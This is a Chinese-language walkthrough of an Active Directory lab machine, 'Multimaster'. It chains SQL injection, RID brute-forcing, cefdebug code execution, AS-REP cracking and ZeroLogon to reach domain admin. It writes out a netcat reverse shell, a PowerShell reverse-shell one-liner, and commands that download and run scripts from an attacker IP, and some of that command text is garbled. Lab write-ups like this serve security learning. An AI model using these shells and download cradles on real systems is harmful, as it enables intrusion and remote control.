



# 域渗透实战之Multimaster - 先知社区

域渗透实战之Multimaster

- - -

# 信息收集

## 端口扫描

首先使用nmap去探测存活的端口，发现该主机为一个域主机。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223058-b183ed34-b869-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223107-b6d62bda-b869-1.png)

## 网络共享

接着查看其网络共享，未发现其存在网络共享。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223116-bc2c0cb2-b869-1.png)

访问80端口，发现一个web网页。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223128-c3726e4e-b869-1.png)

接着发现一个登陆框。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223135-c77e2e9c-b869-1.png)

发现其页面里面存在延时。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223142-cb99d0c6-b869-1.png)

## 目录爆破

使用工具对该网站进行爆破目录。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223150-d0c809c8-b869-1.png)

未发现有用的东西。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223157-d4eb88c2-b869-1.png)

然后使用burp抓包进行测试。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223205-d93ede6a-b869-1.png)

# 漏洞利用

## SQL注入

尝试过{"name":{"$ne":"0xdf"}}，返回一个空数组。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223222-e3b9fe60-b869-1.png)

添加Content-Type. 调用了charset=utf-8. 我查了一下字符'，它的 ASCII 十六进制值为 0x27。  
发送\\u27，返回错误：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223231-e93b0032-b869-1.png)

## Dump用户

使用sqlmap来跑数据  
sqlmap -r sqlmap.txt --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch--proxy [http://127.0.0.1:8080](http://127.0.0.1:8080/) --dump-all--exclude-sysdbs

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223241-eebb4c6a-b869-1.png)

成功跑出数据库  
sqlmap -r colleagues.request --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch--proxy [http://127.0.0.1:8080](http://127.0.0.1:8080/) --dump-all--exclude-sysdbs

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223249-f3fc205a-b869-1.png)

## 破解哈希值

使用hashcat来爆破hash

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223259-f96b5344-b869-1.png)

## 测试可用用户

使用crackmapexec来检测可用用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223307-fea89f2e-b869-1.png)

## 转储域用户

尝试使用MSSQL 转储域用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223317-046c07fc-b86a-1.png)

## 获取默认域

第一步是获取带有SELECT DEFAULT\_DOMAIN(). 用该查询替换所有静态CHAR以获得：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223326-09ef789e-b86a-1.png)

## 获取域 RID

使用SUSER\_SID已知组上的函数来获取域 RID

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223333-0e3880ee-b86a-1.png)

## 构建用户 RID

默认管理员是 RID 500。将其填充到 4 字节 (0x000001f4) 并反转字节顺序 (0xf4010000) 来创建此 RID。管理员 RID 是0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223341-12c869a8-b86a-1.png)

## 脚本爆破

使用脚本爆破

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223350-183216e6-b86a-1.png)

测试域用户密码  
使用crackmapexec来检查域用户的可用性。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223400-1dc150e0-b86a-1.png)

成功获得MEGACORP\\tushikikatomo:finance1用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223407-22670b9e-b86a-1.png)

## WinRM获取shell

使用WinRM 获取shell  
并获取user.txt

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223433-31aaea94-b86a-1.png)

# Priv: tushikikatomo –> cyork

## 枚举

目录枚举，查找可用文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223440-36141d26-b86a-1.png)

## CEF调试

```plain
\cefdebug.exe--code"process.version"--url ws://127.0.0.1:63254/3788348a-7950-47f9-a91d-14ee16ffc052
.\cefdebug --code"process.mainModule.require('child_process').exec('whoami > C:\windows\system32\spool\drivers\color\x')"  ws://127.0.0.1:63254/3788348a-7950-47f9-a91d-14ee16ffc052a-b0
1a-629102094b
```

使用cefdebug.exe来进行调试。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223530-53de15d2-b86a-1.png)

```plain
.\cefdebug --code "process.mainModule.require('child_process').exec('C:\\programdata\\nc.exe 10.10.16.10 443 -e cmd')"--urlws://127.0.0.1:60404/830$client = New-Object 
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.10',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PSReverseShell# ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}$client.Close();

.\cefdebug.exe --url ws://127.0.0.1:38802/8dcd4ac7-49f5-4652-9c95-3f0d7766ffc7 --code "process.mainModule.require('child_process').exec('powershell IEX(New-Object Net.WebClient).DownloadString(\'http://10.10.16.10/shell.ps1\')')"
```

接着上传nc

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223540-598fdf60-b86a-1.png)

## 反弹shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223551-6046be8c-b86a-1.png)

# Priv: cyork –> sbauer

发现一个自定义的 dll 文件，在\\inetpub\\wwwroot\\bin\\目录下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223558-644e0b02-b86a-1.png)

```plain
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.174.1:1234/evil.txt','evil.exe')
```

使用 DNSpy逆向之后，获取登录用户名和密码。  
接着进行测试用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223606-696284c4-b86a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223614-6dab9a16-b86a-1.png)

## WinRM

继续使用winrm获取shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223622-72b837bc-b86a-1.png)

# Priv: sbauer –> jordan

## Bloodhound利用

上传SharpHound.exe

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223629-76da1bc6-b86a-1.png)

## Bloodhound 分析

将其加载到 Bloodhound 中，显示我拥有的三个帐户并将它们标记为此类（右键单击并选择“标记为拥有”）。运行查询“到高价值目标的最短路径

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223636-7ae3aaa2-b86a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223645-8078d73a-b86a-1.png)

## Bypass-AMSI

使用Evil-WinRM来进行Bypass AMSI

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223652-84685f00-b86a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223658-87f25cac-b86a-1.png)

## 获取 AS-REP 哈希值

发现NORMAL\_ACCOUNT和DONT\_EXPIRE\_PASSWORD标志：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223705-8c32c324-b86a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223713-90f4ce66-b86a-1.png)

将它下载到本地，然后进行解密。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223721-95de3c8c-b86a-1.png)

## WinRM获取shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223727-9937c772-b86a-1.png)

# 权限提升

## 用户枚举

jorden 属于服务器操作员组：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223733-9cec13d2-b86a-1.png)

## ZeroLogon获取域控权限

发现域内存在CVE-2020-1472  
使用脚本进行尝试，成功获取域管hash

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223740-a122fea2-b86a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223746-a4a9da00-b86a-1.png)

## 获取root.txt

成功获取root.txt

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121223754-a94f274a-b86a-1.png)
